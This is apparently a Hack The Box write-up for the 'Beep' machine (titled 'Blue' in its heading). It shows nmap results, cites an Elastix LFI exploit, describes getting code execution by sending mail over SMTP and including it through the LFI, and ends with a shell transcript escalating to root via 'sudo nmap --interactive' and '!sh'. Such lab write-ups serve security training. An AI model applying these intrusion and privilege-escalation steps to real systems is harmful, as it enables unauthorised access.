 ```yaml
---
layout: post
title: Beep
date: 2020-03-31
author: th3-3inst3in
comments: true
categories: htb
tags: [Linux,htb]
---
```


## Blue writeup

Easy Linux machine

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/main.png)


Let's do a quick nmap all ports

```perl

Nmap scan report for 10.10.10.7
Host is up (0.17s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL LOGIN-DELAY(0) APOP IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) USER RESP-CODES PIPELINING STLS AUTH-RESP-CODE TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ACL THREAD=ORDEREDSUBJECT SORT=MODSEQ LISTEXT OK URLAUTHA0001 X-NETSCAPE CHILDREN IMAP4rev1 LITERAL+ SORT LIST-SUBSCRIBED BINARY NO CONDSTORE STARTTLS CATENATE ANNOTATEMORE UNSELECT QUOTA NAMESPACE Completed IDLE IMAP4 RIGHTS=kxte THREAD=REFERENCES ATOMIC MULTIAPPEND RENAME MAILBOX-REFERRALS ID UIDPLUS
443/tcp   open  ssl/https?
|_ssl-date: 2020-04-02T05:25:23+00:00; +5m16s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 5m15s
                        

```

<br>

### Enumeration

- The Elastix application running on port 80 is vulnerable to LFI https://www.exploit-db.com/exploits/37637


![LFI]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/lfi.png)

Now there is a method where you can achieve code execution using LFI and SMTP. 
Lets first try to verify if we can send mail using SMTP and also find some users using the /etc/passwd file from the LFI


![SMTP]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/SMTP.png)



### Exploitation


Now I tried using fanis user but I could not read his mail so I tried again with asterisk and it worked, I sent a mail again to asterisk and read the mail using LFI which executed as code.

![codeexec]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/codeexec.png)



Now post enumeration and priv esec 

```perl

bash-3.2$ id
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ 



bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# 




```